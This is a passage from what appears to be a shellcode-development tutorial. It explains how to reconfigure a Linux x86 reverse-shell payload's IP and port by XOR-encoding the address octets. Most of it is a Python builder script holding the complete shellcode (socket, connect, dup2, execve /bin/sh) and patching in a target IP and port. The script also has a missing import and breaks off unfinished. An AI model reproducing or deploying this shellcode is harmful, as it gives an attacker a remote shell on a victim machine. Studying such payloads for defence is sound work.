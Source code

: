 Modifying The Shellcode
-----------------------
Configuring the shellcode to use a different IP address and port is simple. As with the previous bind shell example, to change the port, one must simply change the `\x11\x5c` bytes to represent the desired port.

To change the IP address, each octet needs to be converted to hex and XORd. This also means that the value used to XOR the address also needs to be placed into the shellcode. In the static sample, the XOR bytes can be found by looking for `\xb8\xff\xff\xff\xff` and the encoded bytes can be found by looking for `\x80\xff\xff\xfe`.

When choosing a XOR byte to fill $eax with, it is important to remember that the same byte cannot appear in any of the octets, or it will result in a null byte being used.

To automate this process, Python can be used to determine a valid XOR byte and replace the appropriate bytes in the shellcode.

An example of how to do this can be found below:

```python
import socket
import sys

code =  ""
code += "\\x89\\xe5\\x31\\xc0\\x31\\xc9\\x31\\xd2"
code += "\\x50\\x50\\xb8\\xff\\xff\\xff\\xff\\xbb"
code += "\\x80\\xff\\xff\\xfe\\x31\\xc3\\x53\\x66"
code += "\\x68\\x11\\x5c\\x66\\x6a\\x02\\x31\\xc0"
code += "\\x31\\xdb\\x66\\xb8\\x67\\x01\\xb3\\x02"
code += "\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x66\\xb8"
code += "\\x6a\\x01\\x89\\xe1\\x89\\xea\\x29\\xe2"
code += "\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0"
code += "\\xb0\\x3f\\x49\\xcd\\x80\\x41\\xe2\\xf6"
code += "\\x31\\xc0\\x31\\xd2\\x50\\x68\\x2f\\x2f"
code += "\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89"
code += "\\xe3\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) < 3:
    print 'Usage: python {name} [ip] [port]'.format(name = sys.argv[0])
    exit(1)

ip = socket.inet_aton(sys.argv[1])

# Find valid XOR byte
xor_byte = 0
for i in range(1, 256):
    matched_a_byte = False
    for octet in ip:
        if i == int(octet.encode('hex'), 16):
            matched_a_byte = True
            break

    if not matched_a_byte:
        xor_byte = i
        break

if xor_byte == 0:
    print 'Failed to find a valid XOR byte'
    exit(1)

# Inject the XOR bytes
code = code.replace("\\xb8\\xff\\xff\\xff\\xff", "\\xb8\\x{x}\\x{x}\\x{x}\\x{x}".format(x = struct.pack('B', xor_byte).encode('hex')))

# Inject the IP address
ip_bytes = []
```